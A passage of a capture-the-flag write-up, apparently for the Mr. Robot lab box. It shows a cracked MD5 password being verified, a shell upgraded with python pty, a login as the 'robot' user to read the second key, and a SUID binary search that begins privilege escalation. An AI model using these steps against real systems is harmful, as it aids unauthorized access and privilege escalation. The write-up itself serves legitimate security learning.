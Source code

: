 If we're unsure about the correctness of the result we can easily verify the result ourselves by hashing the result again and checking it matches the original 
hash.

```
root@kali:~# echo -n "abcdefghijklmnopqrstuvwxyz" | md5sum
c3fcd3d76192e4007dfb496cca67e13b
```

It's a match. If the file is what we think it is then we may have a username and password for the `robot` user.

|username|password|
|---|---|
|robot|abcdefghijklmnopqrstuvwxyz|

We can login as `robot` using `su`

```
$ su robot
su: must be run from a terminal 
```

To use `su` we need to be logged in to a TTY terminal which we currently are not.

No worries though! There's a myriad of ways we can get one detailed here https://netsec.ws/?p=337


```
$ python -c 'import pty; pty.spawn("/bin/sh")'
```

No news is good news. Lets try login as robot again.

```
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$
```

Sucess! We are logged in as Robot lets get that key!

```
robot@linux:/$ cat ~/key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

# Flag #3

## Further Privlege Escalation

We managed to log in as a proper user on the server. Buy why stop now? We want `root`

Let's look for binaries with the [SUID bit]() set on their file permission

```bash
robot@linux:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
```